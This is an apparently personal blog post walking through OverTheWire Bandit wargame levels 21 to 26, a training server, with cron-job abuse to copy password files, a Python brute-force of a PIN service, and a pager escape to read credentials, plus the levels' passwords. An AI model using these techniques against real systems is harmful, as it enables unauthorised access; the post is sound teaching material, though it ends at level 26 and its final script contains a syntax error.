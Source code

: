 ```yaml
---
title: "Linux training with overthewire [Part 3/10: Bandit 21-30]"
author: Florian Courgey
layout: post
categories:
  - opensource
  - linux
  - bash
  - shell
  - hack
  - server
---
```

Excerpt here...
<!--more-->

This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training-overthewire-bandit-1 %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-overthewire-bandit-2 %})
- Linux training with overthewire Part 3: Bandit 21-30
- [Linux training with overthewire Part 4: Natas]({% post_url 2018-11-30-linux-training-overthewire-natas-1 %})
- [Linux training with overthewire Part 5: Leviathan]({% post_url 2018-11-30-linux-training-overthewire-leviathan %})

### Level 21 - CRON
```bash
ssh -p 2220 bandit21@bandit.labs.overthewire.org
# gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr http://overthewire.org/wargames/bandit/bandit22.html
```
```bash
$ cat /etc/cron.d/
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
$ cat /usr/bin/cronjob_bandit22.sh
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

### Level 22 - Bash script 1
```bash
ssh -p 2220 bandit22@bandit.labs.overthewire.org
# Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI http://overthewire.org/wargames/bandit/bandit23.html
```
```bash
$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
$ myname=bandit23 && echo $(echo I am user $myname | md5sum | cut -d ' ' -f 1)
8ca319486bfbbc3663ea0fbe81326349
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

### Level 23 - Bash script 2
```bash
ssh -p 2220 bandit23@bandit.labs.overthewire.org
# jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n http://overthewire.org/wargames/bandit/bandit24.html
```
```bash
$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
$ ls /var/spool/bandit24/
lol.sh  script.sh
$ cat /var/spool/bandit24/*
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AuFwziaI3a/lol.txt
$ cat /tmp/tmp.AuFwziaI3a/lol.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### Level 24 - Bruteforce script (in `python`)
```bash
ssh -p 2220 bandit24@bandit.labs.overthewire.org
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ http://overthewire.org/wargames/bandit/bandit25.html
```
Let's test first with `nc`
```bash
$ echo "$(cat /etc/bandit_pass/bandit24) 0000" | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
```
Now that we have our Bad Boy (Wrong...), it's Bruteforce time! From 0000 to 9999. I choose python and the standard `socket` library:
- `bytes_data = socket.recv(buffer_size)` to receive data
- `socket.sendall(bytes_data)` to send data

Quick test in python 3:
```bash
$ cd $(mktemp -d) && vim main.py
```
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024) # to remove first banner msg
for i in range(0,3):
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+str(i)+'\n'))
    print(s.recv(1024).decode()) # print response
```
```bash
$ python3 main.py
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
```

Full code in python:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024)
for i in range(0,9999):
    pin = str(i).zfill(4)
    if i%100 == 0:
      print('Sending '+pin)
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+pin+'\n'))
    data = s.recv(1024).decode()
    if not data.startswith('Wrong'):
      print('PIN '+pin+': 'data)
      exit()
```
```terminal
Sending 0000
Sending 0100
Sending 0200
Sending 0300
PIN 0378: Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### Level 25 - Custom shell
```bash
ssh -p 2220 bandit25@bandit.labs.overthewire.org
# uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG http://overthewire.org/wargames/bandit/bandit26.html
```

Exploit of the `more` command by reducing terminal's height so `more` hangs. This way we can execute command such as `v` to fire up a `vi` editor.

Then in `vi`: `:r /etc/bandit_pass/bandit26`.

5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z

### Level 26 -
```bash
ssh -p 2220 bandit26@bandit.labs.overthewire.org
# 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z http://overthewire.org/wargames/bandit/bandit27.html
```



This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training-overthewire-bandit-1 %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-overthewire-bandit-2 %})
- Linux training with overthewire Part 3: Bandit 21-30
- [Linux training with overthewire Part 4: Natas]({% post_url 2018-11-30-linux-training-overthewire-natas-1 %})
- [Linux training with overthewire Part 5: Leviathan]({% post_url 2018-11-30-linux-training-overthewire-leviathan %})
